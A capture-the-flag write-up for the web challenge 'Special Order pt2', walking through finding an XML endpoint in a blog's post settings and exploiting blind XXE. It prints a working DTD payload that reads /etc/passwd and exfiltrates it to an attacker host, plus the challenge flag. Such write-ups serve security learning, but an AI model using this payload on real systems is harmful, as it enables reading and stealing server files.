







# Special Order pt2 - 490 pts

***

### Description:
```
we got hacked last time, our platform is stronger and better now.

I think I patched all the vulnerabilities

author: pop_eax
```
<br>

Visiting the web page we see a login portal...



<br>

But we dont have any credentials so lets register a new account and login




<br>

After logon we see a nice looking blog page where there are 2 pre-written blogs by admin

so lets create our own blog and see what we can do

[There is no XSS]

but there was a option called `Post Settings` there we can change the font-color and font-size of the blog

<br>



by changing them we can see the effect in our blog

<br>



Then we tried a lot of [CSS injections](!https://portswigger.net/kb/issues/00501300_css-injection-reflected) to get the flag but none of them worked... 


After a while we got an idea, since the title of the challenge says `Special Order pt2` i did a simple google search on `Special Order ctf writeups` and got pop_eax's [writeup and source](!https://github.com/pop-eax/SpecialOrder) of `special order pt1` from there we can get some (ALOT) of hints (90% SOLUTION) 


If we analyze the request being sent while customizing `color` and `size` ,
we see the webapp accepts XML requests

<br>



<br>

The description says the the vulnerability([XEE](!https://portswigger.net/web-security/xxe)) is patched, though the app accepts XML requests so we thought this might be a [Blind XXE](!https://portswigger.net/web-security/xxe/blind)


Then we setup a DTD in cloud 

this is our dtd file hosted in cloud:


```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;

```

then we sent an external XXE request to our cloud 




BOOM we got the `/etc/passwd` of the server, since we already know the location of the flag (`/flag.txt`) lets change the file in our cloud to get the flag...

<br>




```
flag{i7_1s_n0t_s0_bl1nd3721}
```
